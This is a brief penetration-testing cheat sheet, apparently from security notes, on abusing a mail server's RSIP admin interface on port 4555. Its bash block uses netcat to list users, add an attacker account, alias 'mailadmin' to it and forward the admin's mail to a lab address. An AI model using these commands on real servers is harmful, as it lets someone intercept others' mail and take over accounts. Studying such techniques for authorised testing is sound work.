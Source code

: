 # RSIP

### Forwarding admin’s mails <a href="forwarding-admin-s-mails" id="forwarding-admin-s-mails"></a>

```bash
# Connection through netcat (can test for creds)
nc -nv <IP> 4555

# Get commands
HELP

# Get users (hopefully an admin?)
listusers

# Add user
adduser haax haaxpass

# Set an alias for our user
setalias mailadmin haax

# Set mail forwarding
setforwarding mailadmin haax@lab.local
```
